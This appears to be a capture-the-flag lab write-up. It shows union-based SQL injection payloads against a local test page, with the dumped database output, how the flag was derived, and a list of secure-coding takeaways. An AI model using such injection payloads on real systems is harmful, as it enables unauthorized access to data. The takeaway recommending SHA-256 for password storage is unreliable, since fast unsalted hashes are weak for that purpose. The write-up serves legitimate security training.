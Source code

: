 # Searching Page

__http://192.168.99.101/?page=searchimg&Submit=Submit__

## Description
This is a page for searching over the images. 

## Form Outputs
we can select for table names as in previous task [select table_name, 0 from information_schema.tables where table_schema=database()](#http://192.168.99.101/?page=searchimg&id=-1%20union%20select%20table_name,%200%20from%20information_schema.tables%20where%20table_schema=database()&Submit=Submit)
```
ID: -1 union select table_name, 0 from information_schema.tables where table_schema=database() 
Title: 0
Url : list_images
```
we can select for column names as in previous task [select column_name, column_type from information_schema.columns where table_schema=database()](#http://192.168.99.101/?page=searchimg&id=-1%20union%20select%20column_name,%20column_type%20from%20information_schema.columns%20where%20table_schema=database()&Submit=Submit)
```
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: int(11)
Url : id
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(40)
Url : url
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(25)
Url : title
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(255)
Url : comment
```
we can select sensetive data as in previous task [select title, comment from list_images](#http://192.168.99.101/?page=searchimg&id=-1%20union%20select%20title,%20comment%20from%20list_images&Submit=Submit)
```
ID: -1 union select title, comment from list_images 
Title: An image about the NSA !
Url : Nsa
ID: -1 union select title, comment from list_images 
Title: There is a number..
Url : 42 !
ID: -1 union select title, comment from list_images 
Title: Google it !
Url : Google
ID: -1 union select title, comment from list_images 
Title: Earth!
Url : Earth
ID: -1 union select title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

## Flag
The flag we've got in MD5 hash [1928e8083cf461a51303633093573c46](#https://md5.gromweb.com/?md5=1928e8083cf461a51303633093573c46)
Then we request albatroz name in 256 as in instruction 
```echo -n "albatroz" | shasum -a 256```


## Safety
When it comes to web development safety, there are a few key takeaways from this information: </br>
1. Input Validation: It is crucial to properly validate and sanitize user input, especially when it is used in database queries. The vulnerabilities demonstrated in the examples show how an attacker can manipulate the SQL queries by injecting malicious SQL code, resulting in unauthorized access to sensitive information.
2. Query Security: Use prepared statements or parameterized queries instead of directly concatenating user input into SQL statements. This helps prevent SQL injection attacks by separating the SQL code from user-supplied data.
3. Access Control: Ensure that users have appropriate access rights and privileges to perform actions on the website. Restrict access to sensitive data and functionality, and implement proper authentication and authorization mechanisms.
4. Secure Hashing: When storing passwords or sensitive information, use strong hashing algorithms like SHA-256. MD5 is considered weak and should not be used for security purposes.
5. Error Handling: Implement proper error handling mechanisms to avoid exposing sensitive information to the user in error messages or logs. Provide generic error messages to users and log detailed error information securely for internal debugging.
6. Secure Coding Practices: Follow secure coding practices, such as input validation, output encoding, and session management, to prevent common vulnerabilities like cross-site scripting (XSS) attacks and cross-site request forgery (CSRF) attacks.
